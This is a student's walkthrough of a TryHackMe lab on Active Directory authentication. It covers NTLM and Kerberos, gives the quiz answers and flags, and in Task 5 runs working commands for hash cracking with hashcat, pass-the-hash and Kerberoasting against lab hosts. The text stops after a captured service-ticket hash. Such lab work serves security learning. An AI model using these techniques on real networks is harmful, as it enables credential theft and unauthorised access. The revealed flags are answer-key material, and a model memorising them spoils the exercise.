

<h1 align="center"> Intro to AD Authentication </h1>


---


### Lab RooM:

https://tryhackme.com/room/introtoactivedirectoryauthentication

---


### Table of Contents


----


### Active Directory Diagram 


---


## Task 1: Introduction 


### AD Authentication
When we access an **Active Directory (AD)** environment, the first thing we need to understand is **authentication**.

#### What is Authentication?

**Authentication** means proving who you are.

For example:
````mermaid
flowchart TD
    A[User] -->|Credentials| B[Domain Controller]
    B -->|Verify| C{Valid?}
    C -->|Yes| D[Access Granted]
    C -->|No| E[Access Denied]
````

**AD** mainly uses two authentication protocols:
| Protocol     | Main Purpose                 | Important Idea     |
| ------------ | ---------------------------- | ------------------ |
| **NTLM**     | Older Windows authentication | Challenge-response |
| **Kerberos** | Modern AD authentication     | Tickets            |


#### NTLM

NTLM is an older authentication protocol.

It uses a **challenge-response** process:

````mermaid
flowchart TD
    A[Client] -->|1. I want to authenticate| B[Server]
    B -->|2. Challenge| A
    A -->|3. Response based on password/hash| B
    B -->|4. Verify| C{Valid?}
    C -->|Yes| D[Access Granted]
    C -->|No| E[Access Denied]
````

The password itself is **not sent directly** across the network.


**NTLM** is still found in Windows environments, especially for:
- Legacy applications
- Systems that cannot use Kerberos
- Certain fallback authentication situations


#### Kerberos

**Kerberos** is the primary authentication protocol used by modern Windows domains.

Instead of repeatedly sending credentials, Kerberos uses tickets:



| Term    | Meaning                                                     |
| ------- | ----------------------------------------------------------- |
| **KDC** | Kerberos authentication service, normally running on the DC |
| **TGT** | Ticket Granting Ticket                                      |
| **TGS** | Ticket for accessing a specific service                     |
| **SPN** | Identifies a service in the domain                          |


> Windows **New Technology LAN Manager (NTLM)** is a suite of security protocols offered by Microsoft to authenticate users’ identity and protect the integrity and confidentiality of their activity.


> **Kerberos** is a computer network authentication protocol that operates based on tickets, allowing nodes to securely prove their identity to one another over a non-secure network.
> 
> It primarily aims at a client-server model and provides mutual authentication, where the user and the server verify each other's identity.
> 
> The Kerberos protocol messages are protected against eavesdropping and replay attacks, and it builds on symmetric-key cryptography, requiring a trusted third party.


---


### Learning Objectives

In this room, you will learn:
- What authentication means in an Active Directory environment
- The difference between authentication and authorisation
- How NTLM and Kerberos authentication work at a high level
- How to identify which authentication protocol was used during login
- Common weaknesses in AD authentication that attackers can exploit


---


### Starting the Network

Click **Start**:


#### Active Directory Lab Network

| Device         | Hostname         | IP Address       | Role                   |
| -------------- | ---------------- | ---------------- | ---------------------- |
| Windows Server | `ROOTDC.THM.LOC` | `192.168.11.100` | Domain Controller (DC) |
| Windows Server | `SERVER1`        | `192.168.11.51`  | Domain-Joined Server   |


---


### Question & Answer:


-----


## Task 2: Authentication in AD

Authentication in **Active Directory (AD)** is the process of proving who you are before you can access domain resources.

````mermaid
flowchart TD
    User["User<br/>I am John<br/>Credentials"]
    AD["Active Directory<br/>Verify identity"]
    Auth["Authentication"]

    User --> AD
    AD --> Auth
    Auth -->|Valid| Access["Login / Access"]
    Auth -->|Invalid| Denied["Denied"]
````


### Authentication Material

Authentication material is information used to prove your identity.

Sample:
| Authentication Material | Example              | Meaning                                           |
| ----------------------- | -------------------- | ------------------------------------------------- |
| Username + Password     | `john / Password123` | Something we know                                |
| Certificate             | Digital certificate  | Proves identity cryptographically                 |
| Hash                    | Password hash        | Can sometimes be abused in authentication attacks |


#### Username and Password

The most common method: ``Username + Password`` -> ``Domain Controller`` -> ``Verify Credentials``.


#### Certificates

A **certificate** can prove the identity of a user or computer.

Commonly used for:
- Smart cards
- Machine authentication
- Certificate-based authentication


#### Password Hashes

A password is normally stored as a **hash**, not plaintext.

In some attack scenarios, an attacker may be able to use a password hash to authenticate without knowing the original password.

> Authentication material = information used to prove who we are.


---


### Authentication vs Authorisation

These two concepts are very important:

| Concept            | Question             | Example                    |
| ------------------ | -------------------- | -------------------------- |
| **Authentication** | Who are you?         | "You are John."            |
| **Authorization**  | What can you access? | "John can access Finance." |


````mermaid
flowchart TD
    User["User"]
    Auth["Authentication<br/>Who are you?"]
    Identity["Identity"]
    Authz["Authorization<br/>What can you do?"]
    Granted["Access Granted"]
    Denied["Access Denied"]

    User --> Auth
    Auth --> Identity
    Identity --> Authz
    Authz --> Granted
    Authz --> Denied
````


Example

John logs into the company domain.

````mermaid
flowchart TD
    subgraph Authentication
        A1["John"]
        A2["Domain Controller"]
        A3["You are John."]
        A1 -->|Username + Password| A2
        A2 --> A3
    end

    subgraph Authorization
        B1["John"]
        B2["Check Groups / Permissions"]
        B3["Finance Group → Finance Share"]
        B4["HR Group → HR Share"]
        B5["No Permission → Access Denied"]
        B1 --> B2
        B2 --> B3
        B2 --> B4
        B2 --> B5
    end

    A3 --> B1
````

---


### AD Authentication Protocols

Active Directory mainly uses two important authentication protocols:
| Protocol           | Type               | Main Idea                                     |
| ------------------ | ------------------ | --------------------------------------------- |
| **NetNTLM / NTLM** | Challenge-response | Prove identity using a challenge and response |
| **Kerberos**       | Ticket-based       | Use tickets to authenticate                   |


````mermaid
flowchart TD
    AD["AD Authentication"]
    NTLM["NTLM"]
    Kerberos["Kerberos"]
    CR["Challenge / Response"]
    Tickets["Tickets"]

    AD --> NTLM
    AD --> Kerberos
    NTLM --> CR
    Kerberos --> Tickets
````


#### NetNTLM / NTLM

**NTLM** is a challenge-response authentication protocol.

Flow:

````mermaid
sequenceDiagram
    participant C as Client
    participant S as Server

    C->>S: 1. Authentication Request
    S->>C: 2. Challenge
    C->>S: 3. Response
    S->>S: 4. Verify
    S-->>C: Access Granted / Denied
````

The password itself is not simply sent across the network.

**NTLM** is older and is still encountered in environments where Kerberos cannot be used.


#### Kerberos

Kerberos is the preferred authentication protocol in modern Windows domains.

Instead of repeatedly sending passwords, Kerberos uses tickets.

````mermaid
sequenceDiagram
    participant U as User
    participant KDC as Domain Controller / KDC
    participant S as Server / Service

    U->>KDC: 1. Login
    KDC-->>U: 2. TGT
    U->>KDC: 3. Request Service Ticket
    KDC-->>U: 4. TGS
    U->>S: 5. Present Ticket
    S-->>U: Access
````

| Term    | Meaning                                                            |
| ------- | ------------------------------------------------------------------ |
| **KDC** | Kerberos authentication service, normally on the Domain Controller |
| **TGT** | Ticket Granting Ticket                                             |
| **TGS** | Service ticket used to access a particular service                 |
| **SPN** | Service Principal Name; identifies a service                       |


#### Other AD Services

| Protocol / Service | Purpose                            |
| ------------------ | ---------------------------------- |
| **LDAP**           | Access/query directory information |
| **SMB**            | File and network resource sharing  |
| **WebDAV**         | Web-based file/resource access     |

These are not the main authentication protocols discussed here.

They can rely on **NTLM or Kerberos** for authentication.

For example:
````mermaid
flowchart TD
    User["User"]
    Auth["Kerberos / NTLM"]
    SMB["SMB"]
    Share["File Share"]

    User -->|Authentication| Auth
    Auth --> SMB
    SMB --> Share
````

---


### Quesions & Answers:

#### 1. What is the process called that proves your identity?
````
Authentication
````


---

#### 2. What is the process called that determines what you are allowed to access?
````
Authorisation
````


-----


## Task 3: NetNTLM Authentication

### What is NTLM?

**NTLM (NetNTLM)** is an authentication protocol used by Windows systems to verify a user's identity.

It uses a challenge-response process instead of simply sending the user's password over the network.

````mermaid
flowchart TD
    A[Client / User] -->|1. Authentication Request| B[Server]
    B -->|2. Challenge| A
    A -->|3. Challenge Response| B
    B -->|4. Verify Response| C{Valid?}
    C -->|Yes| D[Access Granted]
    C -->|No| E[Access Denied]
````


#### Why is NTLM still used?

**Kerberos** is the preferred authentication protocol in modern AD environments, but NTLM can still be used when:
- Legacy systems are present
- The environment is a workgroup
- Kerberos is unavailable
- Windows falls back to NTLM

````
Active Directory Authentication
              |
       ┌──────┴──────┐
       ↓             ↓
   Kerberos         NTLM
   Preferred       Fallback
                     |
              Legacy Systems
              Workgroups
              Kerberos unavailable
````


#### NTLM Versions
NTLM has different versions.
| Version    | Description                 | Security                                |
| ---------- | --------------------------- | --------------------------------------- |
| **NTLMv1** | Original NTLM version       | Weak / insecure                         |
| **NTLMv2** | Improved challenge-response | Stronger, but still has attack exposure |


### How NTLM Authentication Works

With **NTLM**, the user authenticates **directly to the service** they want to access.


#### NTLM Authentication Process
| Step  | What Happens    | Easy Explanation                                                             |
| ----- | --------------- | ---------------------------------------------------------------------------- |
| **1** | Client → Server | User asks to access a service and sends their username.                      |
| **2** | Server → Client | Server sends a random **16-byte challenge** (nonce).                         |
| **3** | Client → Server | Client uses the user's **NT hash** to create a response to the challenge.    |
| **4** | Server → DC     | Server sends the username, challenge, and response to the Domain Controller. |
| **5** | DC verifies     | DC gets the user's NT hash and calculates its own response.                  |
| **6** | Compare         | DC compares its response with the client's response.                         |
| **7** | Result          | If they match → **Access Granted**. Otherwise → **Access Denied**.           |

> The actual password is **not sent over the network**. The client sends a response based on the password's NT hash.

---


### Benefits of NTLM

**NTLM** is old, but it is still used in some situations.

| Benefit          | Easy Explanation                                    |
| ---------------- | --------------------------------------------------- |
| **Simple**       | Easy to implement and use.                          |
| **No time sync** | Does not require synchronized clocks like Kerberos. |
| **Fallback**     | Can be used when Kerberos is unavailable.           |
| **Workgroups**   | Works in environments without an AD domain.         |


### Drawbacks of NTLM
| Drawback                     | Easy Explanation                                                           |
| ---------------------------- | -------------------------------------------------------------------------- |
| **No mutual authentication** | Client cannot confirm the server is really trusted.                        |
| **Weak cryptography**          | Especially NTLMv1; NTLMv2 is stronger but still has weaknesses.            |
| **Vulnerable to relay attacks**            | Authentication can potentially be relayed to another service.              |
| **Pass-the-hash attacks**            | An attacker with an NT hash may authenticate without knowing the password. |
| **Slower performance**                   | Authentication may require communication with the Domain Controller.       |


### When Is NTLM Used?

**NTLM** may be used when:
- Kerberos is unavailable.
- The client accesses a service using an IP address.
- The service has no registered SPN.
- The system is not domain-joined.
- A legacy application requires NTLM.


> **SPN**: A unique identifier that maps a service instance to a service account in Active Directory. Kerberos uses the SPN to locate the correct account when issuing a service ticket, allowing clients to request authentication for a specific service.


### NTLM Authentication with Impacket

**Impacket** is a collection of Python tools for interacting with Windows/AD services.

example like: ``smbclient.py`` is used to connect to an SMB share using NTLM authentication.

Connect to the Target:
````bash
smbclient.py thm.loc/claire:'Password123'@192.168.11.51
````


| Part            | Meaning             |
| --------------- | ------------------- |
| `smbclient.py`  | Impacket SMB client |
| `thm.loc`       | Domain              |
| `claire`        | Username            |
| `Password123`   | Password            |
| `192.168.11.51` | Target IP           |


##### Command that we can use:
| Command       | Purpose                     |
| ------------- | --------------------------- |
| `shares`      | List SMB shares             |
| `use <share>` | Connect to a share          |
| `ls`          | List files/directories      |
| `cd <dir>`    | Enter a directory           |
| `pwd`         | Show current SMB path       |
| `get <file>`  | Download a file             |
| `mget *`      | Download multiple files     |
| `put <file>`  | Upload a file, if permitted |
| `exit`        | Quit SMB client             |


In this I test something:
````
use IPC$
ls
````


Behind the scenes:
| Step                | What Happens                                   | Easy Meaning                 |
| ------------------- | ---------------------------------------------- | ---------------------------- |
| **1. Username**     | Client sends username to the target            | “I am Claire.”               |
| **2. Challenge**    | Target sends a random challenge                | “Prove it.”                  |
| **3. Response**     | Client uses the NT hash to create a response   | “Here is my proof.”          |
| **4. Verification** | Target asks the Domain Controller to verify it | DC checks the response.      |
| **5. Result**       | DC confirms the result                         | Access is granted or denied. |

---


### Questions & Answers:


#### 1. In NetNTLM, does the client authenticate directly to the domain controller or to the service they want to access?
````
Service
````


> NTLM authenticates the client to the service it wants to access.
---

#### 2. What is the name of the random value that the server sends to the client during NetNTLM authentication?
````
Challenge
````


> The server sends a random value that the client must respond to.
---

#### 3. What is the value of Flag 1 that you can recover from SHARE1?
````
shares
use SHARE1
cat flag1.txt
````


Now we see flag:
````
THM{5cbcc61a-3178-4220-88b4-367c1bbb48e7}
````


-----


## Task 4: Kerberos Authentication


### What is Kerberos?

**Kerberos** is the main authentication protocol used in modern Active Directory.

Unlike NTLM, Kerberos uses tickets to prove our identity.

#### NTLM vs Kerberos
| NTLM                   | Kerberos             |
| ---------------------- | -------------------- |
| Client → Service       | Client → DC first    |
| Challenge-response     | Ticket-based         |
| Service checks with DC | DC issues tickets    |
| Older/fallback         | Default in modern AD |


### Key Kerberos Components
| Component                         | Description                                                                                                    |
| --------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| **Key Distribution Center (KDC)** | A service on the Domain Controller that handles Kerberos ticket requests. It contains the **AS** and **TGS**.  |
| **Authentication Service (AS)**   | Verifies the user's identity and issues the **TGT**.                                                           |
| **Ticket Granting Service (TGS)** | Issues **Service Tickets (ST)** when the user presents a valid **TGT**.                                        |
| **Ticket Granting Ticket (TGT)**  | The initial ticket received after authentication. Used to request access to services.                          |
| **Service Ticket (ST)**           | A ticket that provides access to a specific service.                                                           |
| **Service Principal Name (SPN)**  | A unique identifier that associates a service with a specific account.                                         |
| **KRBTGT Account**                | A special AD account used to protect TGTs. If compromised, attackers can potentially forge **Golden Tickets**. |


> **TGS**As a service: the KDC component that issues service tickets to clients presenting a valid TGT.
As a ticket: the service ticket itself, used by the client to authenticate to a specific service identified by its SPN. The client sends the TGS ticket directly to the target service, which validates it without contacting the KDC.

> **TGT**: In Kerberos, a Ticket Granting Ticket (TGT) serves as a user's proof of authentication and allows a user to request service tickets from the KDC, which can then be used to connect to services across the network.


### How Kerberos Authentication Works


Kerberos authentication has several steps. The first two are used to get a **TGT**.

#### Step 1: Authentication Service Request (AS-REQ)

The user starts by entering their credentials on the client.

The client then sends an AS-REQ to the KDC:
| Item                    | Easy Explanation                          |
| ----------------------- | ----------------------------------------- |
| **Username**            | Identifies the user                       |
| **Timestamp**           | Proves the request is recent              |
| **Encrypted timestamp** | Helps prove the user knows their password |


This timestamp helps prove the user knows the password.


#### Step 2: Authentication Service Response (AS-REP)

The KDC checks the encrypted timestamp using the user's stored password-derived key.

If valid, the KDC sends back:
| Item            | Easy Explanation                             |
| --------------- | -------------------------------------------- |
| **Session Key** | Used for secure communication                |
| **TGT**         | Ticket used later to request service tickets |
| **KRBTGT Hash** | Used by the KDC to protect the TGT           |


#### Step 3: Ticket Granting Service Request (TGS-REQ)

When the user wants to access a specific service, the client asks the **KDC** for a **Service Ticket**.

| Item              | Easy Explanation                                     |
| ----------------- | ---------------------------------------------------- |
| **TGT**           | Proves the user already authenticated                |
| **SPN**           | Identifies the service the user wants                |
| **Authenticator** | Username + timestamp, protected with the session key |


#### Step 4: Ticket Granting Service Response (TGS-REP)

If the KDC approves the request, it sends back:
| Item                    | Easy Explanation                             |
| ----------------------- | -------------------------------------------- |
| **Service Ticket (ST)** | Ticket for the specific service              |
| **Service Session Key** | Key used for communication with that service |


#### Step 5: Application Request (AP-REQ)

The client now uses the Service Ticket to access the target service:
| Step  | What Happens     | Easy Explanation                                                                 |
| ----- | ---------------- | -------------------------------------------------------------------------------- |
| **7** | Client → Service | Client sends the **Service Ticket** to the target service.                       |
| **8** | Service verifies | Service decrypts the ticket using its own secret and checks the user's identity. |


---


### Benefits of Kerberos
Kerberos improves on NTLM by using tickets instead of repeatedly sending authentication information:
| Benefit                      | Easy Explanation                                                    |
| ---------------------------- | ------------------------------------------------------------------- |
| **Mutual authentication**    | Client and server can verify each other.                            |
| **No password transmission** | Passwords are not sent across the network.                          |
| **Single Sign-On (SSO)**     | Authenticate once, then access multiple services.                   |
| **Delegation**               | A service can act on behalf of a user when configured.              |
| **Better performance**       | Services can validate tickets without contacting the DC every time. |
| **Time-limited tickets**     | Tickets expire, limiting how long they can be abused.               |


### Drawbacks of Kerboros
| Drawback                 | Easy Explanation                                                         |
| ------------------------ | ------------------------------------------------------------------------ |
| **Time synchronization** | Client and server clocks must be close, normally within about 5 minutes. |
| **KDC dependency**       | The KDC is important for issuing tickets.                                |
| **Ticket attacks**       | Stolen tickets can potentially be reused.                                |
| **Kerberoasting**        | Some service tickets can be requested and attacked offline.              |
| **Complexity**           | Requires correct DNS, SPNs, and time synchronization.                    |


### Credential Cache (ccache)

On Linux, Kerberos tickets can be stored in a **ccache file**:
| Item                 | Meaning                            |
| -------------------- | ---------------------------------- |
| **ccache**           | Stores Kerberos tickets            |
| `/tmp/krb5cc_%{uid}` | Common default location            |
| `KRB5CCNAME`         | Tells programs which ccache to use |
| `klist`              | Displays stored Kerberos tickets   |

This is important for attackers because if we can obtain a user's ccache file, we can authenticate as that user without knowing their password, an attack known as ``Pass-the-Ticket`` or ``Pass-the-ccache``.


### Kerberos Authentication with Impacket

#### Add the Server to /etc/hosts

Kerberos relies on **hostnames** and **SPNs**, so the server hostname must resolve correctly:
````bash
echo "192.168.11.51 SERVER1.thm.loc" >> /etc/hosts
````


| Part              | Meaning         |
| ----------------- | --------------- |
| `192.168.11.51`   | SERVER1 IP      |
| `SERVER1.thm.loc` | Server hostname |


#### Request a TGT
Use ``getTGT.py``:
````shell
getTGT.py thm.loc/mary:'SuperLongForKerberos123!' -dc-ip 192.168.11.100
````


#### Set KRB5CCNAME

Tell Kerberos tools which ticket cache to use:
````shell
export KRB5CCNAME=mary.ccache
````


#### Use the Ticket with SMB

Now connect to the SMB service:
````shell
smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100
````


| Option     | Meaning                                  |
| ---------- | ---------------------------------------- |
| `-k`       | Use Kerberos authentication              |
| `-no-pass` | Don't ask for a password; use the ticket |
| `-dc-ip`   | Specify the Domain Controller/KDC IP     |


Commands that we can use:
| Command          | Purpose                     |
| ---------------- | --------------------------- |
| `shares`         | List available SMB shares   |
| `use <share>`    | Connect to a specific share |
| `ls`             | List files/directories      |
| `cd <directory>` | Enter a directory           |
| `pwd`            | Show current SMB directory  |
| `get <file>`     | Download a file             |
| `mget *`         | Download multiple files     |
| `exit`           | Exit SMB client             |


> **Note**: When using Kerberos, you must use the hostname (not the IP address) because Kerberos relies on SPNs which are tied to DNS names.


Behind the scene:
| Step  | What Happens                       | Easy Explanation                                                    |
| ----- | ---------------------------------- | ------------------------------------------------------------------- |
| **1** | Client uses **TGT**                | Uses the TGT stored in the ccache file to request a Service Ticket. |
| **2** | KDC issues **Service Ticket**      | KDC creates a ticket for the SMB service.                           |
| **3** | Client presents **Service Ticket** | Client sends the ticket to the target server.                       |
| **4** | Server validates ticket            | Server checks the ticket and grants access if valid.                |


---


### Questions & Answers

#### 1. What is the name of the ticket issued by the KDC that allows you to request service tickets?
````
Ticket Granting Ticket
````


> The TGT is used to request Service Tickets.
---

#### 2. What special account's password hash is used to encrypt all TGTs?
````
KRBTGT
````


---

#### 3. What environment variable is used to specify the location of a Kerberos credential cache file on Linux?
````
KRB5CCNAME
````


---

#### 4. What is the value of Flag 2 that you can recover from SHARE2 using Kerberos authentication?
````shell
shares
use SHARE2
cat flag.txt
````


Now we see flag is:
````
THM{0d3f818a-427a-425c-a451-55e43b83e876}
````


----


## Task 5: Weaknesses in AD Authentication


### Common Authentication Weaknesses in AD

Both **NTLM** and **Kerberos** can have weaknesses that attackers may abuse. The easiest way to understand them is to separate them into NTLM, Kerberos, and configuration weaknesses.


#### NTLM-Specific Weaknesses:

| Weakness                     | Easy Explanation                                                                      |
| ---------------------------- | ------------------------------------------------------------------------------------- |
| **Weak Cryptography**        | NTLM uses older hashing without salt, making password hashes easier to attack.        |
| **Pass-the-Hash (PtH)**      | An attacker with an NTLM hash may authenticate without knowing the actual password.   |
| **NTLM Relay**               | An attacker can potentially capture and relay NTLM authentication to another service. |
| **Downgrade Attack**         | An attacker may try to force authentication from Kerberos to NTLM.                    |
| **No Mutual Authentication** | The client cannot properly verify the server's identity through NTLM itself.          |

##### NTLM Attack Flow:
````mermaid
flowchart TD
    A[User] -->|NTLM Authentication| B[Service]
    B -->|Challenge| A
    A -->|Response| B
    B --> C{Weakness Exploited?}
    C -->|Pass-the-Hash| D[Authenticate Using NTLM Hash]
    C -->|Relay| E[Relay Authentication]
````


#### Kerberos-Specific Weaknesses

| Weakness                  | Easy Explanation                                                                                       |
| ------------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kerberoasting**         | Request service tickets and attempt to crack them offline to recover weak service-account passwords.   |
| **AS-REP Roasting**       | Accounts without Kerberos pre-authentication may expose data that can be attacked offline.             |
| **Pass-the-Ticket (PtT)** | A stolen Kerberos ticket may be reused to authenticate as its owner.                                   |
| **Overpass-the-Hash**     | An NTLM hash can potentially be used to obtain a Kerberos TGT.                                         |
| **Golden Ticket**         | Compromising the `KRBTGT` secret can allow forged Kerberos authentication across the domain.           |
| **Silver Ticket**         | A compromised service-account secret can potentially be used to forge a ticket for a specific service. |


##### Kerberos Attack Relationships
````mermaid
flowchart TD
    A[Kerberos] --> B[Service Ticket]
    B -->|Attack Offline| C[Kerberoasting]

    A --> D[Kerberos Ticket]
    D -->|Steal and Reuse| E[Pass-the-Ticket]

    A --> F[KRBTGT Secret]
    F -->|Compromise| G[Golden Ticket]

    A --> H[Service Account Secret]
    H -->|Compromise| I[Silver Ticket]
````


#### Configuration-Based Weaknesses
These problems come from poor **AD configuration**, rather than the protocol itself:

| Weakness                     | Easy Explanation                                                                             |
| ---------------------------- | -------------------------------------------------------------------------------------------- |
| **Weak Passwords**           | Easy passwords are easier to guess or crack.                                                 |
| **Password Spraying**        | Trying a small number of common passwords against many accounts.                             |
| **Misconfigured Delegation** | Incorrect Kerberos delegation can allow privilege escalation or lateral movement.            |
| **Stale Credentials**        | Old accounts, service accounts, or machine credentials may remain active and become targets. |

##### Attack Categories
````mermaid
flowchart TD
    AD["AD Authentication"]
    NTLM["NTLM"]
    Kerberos["Kerberos"]
    Config["Configuration"]

    PtH["PtH"]
    Relay["Relay"]
    Kerberoast["Kerberoast"]
    PtT["PtT"]
    Weak["Weak Password"]
    Delegation["Delegation"]

    AD --> NTLM
    AD --> Kerberos
    AD --> Config

    NTLM --> PtH
    NTLM --> Relay
    Kerberos --> Kerberoast
    Kerberos --> PtT
    Config --> Weak
    Config --> Delegation
````

---


### Practical Demonstrations

four common AD authentication attacks using the file share: ``SERVER1.thm.loc`` — ``192.168.11.51``

Each attack uses different compromised authentication material to access the share and retrieve a flag.

| Attack                       | Easy Explanation                                                             |
| ---------------------------- | ---------------------------------------------------------------------------- |
| **1. Weak Password Hashing** | Crack an NTLM hash to recover the password.                                  |
| **2. Pass-the-Hash**         | Use the NTLM hash directly without knowing the password.                     |
| **3. Kerberoasting**         | Obtain a service ticket and attempt to recover the service account password. |
| **4. Golden Ticket**         | Forge a Kerberos ticket to impersonate a user.                               |


Flow:
````mermaid
flowchart TD
    A[Compromised Credentials] --> B[AD Authentication]
    B --> C[SERVER1 File Share]
    C --> D[Retrieve Flag]

    A --> E[Weak NTLM Hash]
    A --> F[NTLM Hash]
    A --> G[Kerberos Service Ticket]
    A --> H[KRBTGT Secret]
````


### Weak Password Hashing
When a password is stored in Active Directory, it is stored as an **NTLM hash** instead of plaintext.

The problem is that NTLM hashes are unsalted, so the same password always creates the same hash. Weak passwords can therefore be attacked with password-cracking tools.


How it work: ``Weak Password`` -> ``NTLM Hash`` -> ``Password Cracking`` -> ``Recovered Password`` -> ``Normal Authentication`` -> ``Access to Service``

| Concept                | Easy Explanation                   |
| ---------------------- | ---------------------------------- |
| **NTLM Hash**          | Hash representing the password     |
| **No Salt**            | Same password → same hash          |
| **Hashcat**            | Tool used to test password guesses |
| **Weak Password**      | Easier to crack                    |
| **Recovered Password** | Can be used for normal login       |


#### Practical Demonstration

##### Identify the NTLM Hash

In this we have **NTLM Hash**:
````shell
phillip:1106:aad3b435b51404eeaad3b435b51404ee:939B0058BC6DD834ABC4CC08CFEFEA69:::
````
Format:
````
username : UID : LM_hash : NTLM_hash :::
````
| Field         | Value                              |
| ------------- | ---------------------------------- |
| Username      | `phillip`                          |
| UID           | `1106`                             |
| LM Hash       | `aad3b435b51404eeaad3b435b51404ee` |
| **NTLM Hash** | `939B0058BC6DD834ABC4CC08CFEFEA69` |


Save it only NTLM hash:
````shell
echo '939B0058BC6DD834ABC4CC08CFEFEA69' > hash.txt
````


##### Crack the Hash

````shell
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
````


Now we see password is:
````
secret12!
````

| Option        | Meaning                  |
| ------------- | ------------------------ |
| `-m 1000`     | NTLM hash mode           |
| `hash.txt`    | File containing the hash |
| `rockyou.txt` | Password wordlist        |


Also in this we can view the recovered result, cause John and hashcat can duplicate crack:
````shell
hashcat -m 1000 hash.txt --show
````


##### Go to SMB:
After recovering the password, use it with Impacket:
````shell
smbclient.py "thm.loc/phillip:secret12!"@192.168.11.51
````


Now we was going to target smb.

Then check flag:
````shell
shares
use SHARE3
cat flag3.txt
````


Now we see flag3 is:
````
THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}
````


---


### Pass-the-Hash (PtH)

**Pass-the-Hash** means using an **NTLM hash directly** to authenticate without knowing the user's plaintext password.

``NTLM Hash`` -> ``Pass-the-Hash`` -> ``NTLM Authentication`` -> ``Access Granted``

Why Does It Work?

**NTLM** uses the **password hash** during authentication.

> If an attacker has the NTLM hash, they may be able to authenticate without knowing the password.
>
> A strong password does not prevent PtH if the NTLM hash has already been stolen.

#### Practical Demonstration

In this we have the NTLM hash for the user ``ben``:
````
63CF41DC25C04B8FB79E44B1DEF12C10
````

Unlike the previous attack, `we do not crack the hash.

Use Impacket's ``smbclient.py`` with ``-hashes``:
````shell
smbclient.py thm.loc/ben@192.168.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10
````


Now we got target smb.

``-hashes`` Format:
````
LM_hash:NTLM_hash
````
| Part      | Value                              |
| --------- | ---------------------------------- |
| LM Hash   | `aad3b435b51404eeaad3b435b51404ee` |
| NTLM Hash | `63CF41DC25C04B8FB79E44B1DEF12C10` |

> The LM value is commonly supplied as the standard empty/unused LM hash.


Then check flag:
````shell
shares
use SHARE4
cat flag4.txt
````


Now we see flag is:
````
THM{284c6735-b7c1-4221-b072-abf30a54eeda}
````

---


### Kerberoasting

**Kerberoasting** targets service accounts in Active Directory.

````mermaid
sequenceDiagram
    participant U as Authenticated User
    participant KDC as KDC
    participant A as Attacker (offline)
    participant S as Service

    U->>KDC: Request Service Ticket (SPN)
    KDC-->>U: TGS (encrypted with service acct secret)
    U->>A: Extract & crack offline
    A->>A: Recover service account password
    A->>S: Access service as service account
````


##### Why Does It Work?

Any authenticated domain user can request a service ticket for services with registered SPNs.

If the service account has a **weak password**, the ticket may be cracked offline to recover that password.

| Term                     | Easy Explanation                             |
| ------------------------ | -------------------------------------------- |
| **Service Account**      | Account used to run a service                |
| **SPN**                  | Identifies a service in AD                   |
| **TGS / Service Ticket** | Ticket for accessing a service               |
| **Kerberoasting**        | Request TGS → extract ticket → crack offline |
| **Weak Password**        | Makes cracking easier                        |


#### Practical Demonstration

##### Find Service Accounts
Use ``GetUserSPNs.py``:
````shell
GetUserSPNs.py thm.loc/claire:'Password123!' -dc-ip 192.168.11.100 -request
````


Now we got ticket hash:
````
$krb5tgs$23$*svc_printer$THM.LOC$thm.loc/svc_printer*$773bdf9ab063bc24e621b4d1195f4530$02c4231376f0e3529df69b6a56191add4e03989df5e98b10b38ecac3b67f13a9ddbb0c7e066190da3e6203080e141a71765917a75326cf5587069634f69f42d4c2bcc586aa6207caa5c0d034bc3f6e11e9c0ae564e8cc5036ae7a20cb94c6ec0d19bfb44ad9fd66c032beb1a76777e325b69a0e78c7c1cc20b0f29c7b3aba2759e6643d4a74c985a700dde923978cc3a33d2b31a421ae8f3f28d38bb6a54b08c8ca01ac80f2f5c25cf127f5362fc1d63cde6bc0532467eb8ece602a2056188f951e04d071a811c4dd20eee6687f7af1f7c7fc279da74975ab92e8ef848a356fbd273efdf61b8a073fb1e297ecc5c1acf34f1eeca350a0af1ea4a33529b35d1a552be9c0544d4a8cfb3f7343f56cc3f1a3f462a3a5746d6de00cdd73719d640f9c6ec2144f5b56f2c64c09e913acc4276458ad166b045e111418c82f205b185be132d5fe1abbda43d0db9fa47730cda0546d17383780c2a77f150a52dbe692b8f117cb2e592e2f91afe0f5e65a2809f4b7fa698b07f11a919d73202cd64547d40aa1437d7181a0563fa4191b2d30a603636a302bb081f4ea4467228a658a0b316da736b5618ff03c285ffc29112639a53e4333e8c5a2a0e329464c1f3d00b6d3dd52684a019d162335d04ad2fc38a315332cfdf407cbe3995cb396bbba19df9830a86539c2a91955adfe3c0259441b27c014e76b00698bfbe55d3da0b8d5dc9211ff0376dc8eb9b83063542518c984253973de4a81f87072308e0465debb302cad7a4a494c6084305f8e90983a6c7a52719dd652d0483d128e76e13f97ef446a7e27c97c9d785521e702839ea9c8c0b177a9157a3de171864751f32a81406e12f303b1a89c450508c6ce30b7860797bfbdbe48c8a491e1a704a2982629cd138fbcbb99e0bc3afca1e46d190d1a52ad5b9aba12df7ddf9fc872f4b5bc2f307bcee936a8af7680eb0d3faf81f723db36cc3a96176c0644b59de16ba63953586e48e54b9f4a680855faa23a5461fcad7d2569b89f31998e0fc818b1434624b8e75630b587a1b9a326f25a7b6c3c63ad37ab75c8f3834df59a3699040ffe